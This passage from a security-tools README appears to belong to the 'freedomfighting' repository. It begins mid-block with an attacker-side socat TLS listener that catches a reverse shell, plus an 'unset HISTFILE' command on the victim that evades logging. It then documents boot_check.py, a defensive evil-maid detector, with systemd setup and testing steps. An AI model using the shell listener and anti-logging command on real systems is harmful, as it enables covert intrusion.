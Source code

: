 ```
```
root@attacker:~/freedomfighting# socat openssl-listen:8080,reuseaddr,cert=server.pem,cafile=client.crt,method=TLS1 file:`tty`,raw,echo=0
root@victim:~# unset HISTFILE
root@victim:~#
```

## boot_check.py

This script was written to detect evil maid attacks. It does so by checking at
boot time if the hard drive was powered on but not the OS (for instance, if it
was taken out of the computer for a copy, or if someone tried to boot the
machine but was stopped by a FDE password).

### Installation:

You need to make sure this script will run at every boot. The following
instructions will work on distributions using systemd.

* Copy boot_check.service to `/etc/systemd/system/`. Fix paths inside of it as needed.
   The script will run as root so make sure it is not world writable!
* `#> systemctl enable boot_check.service`

Install dependencies:

* `#> apt install smartmontools dialog`

Run the script once so it initializes:

* `#> ./boot_check.py`

If a confirmation message appears, you're good to go.

### Testing

If you want to make sure that the script works, make sure you do the following:
- Do not just reboot the computer, as the power to the hard drive may not be cut. 
Turn it off completely.
- If you don't want to take out your drive and plug it into another machine, you
can try interrupting the boot process. This has to happen before the script is 
executed, but after the drive has been powered on (which means after the BIOS)
password. A good moment to interrupt the boot process is when the prompt for the
FDE password is shown.
- Then turn on the computer again, and you should see the alert on your screen
a few seconds after your computer has booted up.

## Miscellaneous

### Donations
These scripts are 100% free. I do like Bitcoins though, so if you want to send some my way, here's an address you can
use: ```1PUeq8FfyqvyJqA1Eb23qHrnkdPknt4aKF```
Feel free to drop me a line if you donate to the project, so I can thank you personally!

### Contact
[![](https://manalyzer.org/static/mail.png)](justicerage@manalyzer[.]org)
[![](https://manalyzer.org/static/twitter.png)](https://twitter.com/JusticeRage)
[![](https://manalyzer.org/static/gpg.png)](https://pgp.mit.edu/pks/lookup?op=vindex&search=0x40E9F0A8F5EA8754)